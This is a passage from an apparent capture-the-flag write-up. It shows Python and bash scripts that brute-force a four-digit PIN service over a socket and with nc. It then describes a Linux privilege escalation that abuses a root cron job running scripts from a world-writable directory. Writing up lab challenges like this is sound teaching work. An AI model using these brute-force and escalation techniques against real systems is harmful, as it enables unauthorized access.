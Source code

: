 An alternate Python script can also be used here instead:

```python
import socket

if __name__ == '__main__':
  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  sock.connect(('192.168.13.44', 3002))

  for pin in range(10000):
    send_pin = str(pin).zfill(4)
    sock.send(send_pin.encode())
    data = sock.recv(1024)

    if 'Incorrect' not in data.decode():
      print(data.decode())
      sock.close()
      exit()
```

This challenge could also be completed with the following bash script but it's a slightly messier solution as it has to open a new connection for each attempt and also relies on a client-side timeout to ensure ``nc`` doesn't cause the script to hang indefinitely which makes it much slower than the more reactive Python scripts above.

```bash
#!/bin/bash
for i in {0..9}{0..9}{0..9}{0..9}
do
  echo $i | nc -w 1 localhost 3002
done

```

Each solution takes several minutes to run but eventually reveal the flag.

## INF003
The flag for this challenge was stored in the file ``/root/flag.txt`` but the challenge only provided login details for a low-level user account called ``remote``, this challenge requires privilege escalation to complete. To kick things off I logged in to the server using SSH and the login details provided by the challenge and then proceeded to poke around looking for anything I could use to escalate my privileges, this included examining environment variables, the permissions my account had, the group(s) my account was in, the running processes, the Linux distribution and version and a whole host of other useful information, [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) provides a very useful list of checks and information gathering techniques for Linux privilege escalation. In this case I found something interesting when I examined ``/etc/crond.d/`` a scheduled cron job is running the script ``/usr/sbin/runner.sh``, when I examined the script I found that it ran any file with a ``.sh`` extension that was placed in the directory ``/usr/sbin/scheduled/``, which allows anyone to write to it. Because the ``/usr/sbin/runner.sh`` script is being run as the root user by ``/etc/cron.d/scheduled_backup`` any script it in turn runs will also be run as the root user, well that's exactly what I needed, I quickly added a new directory in ``/tmp`` and set about writing a small script to copy the file I was after.
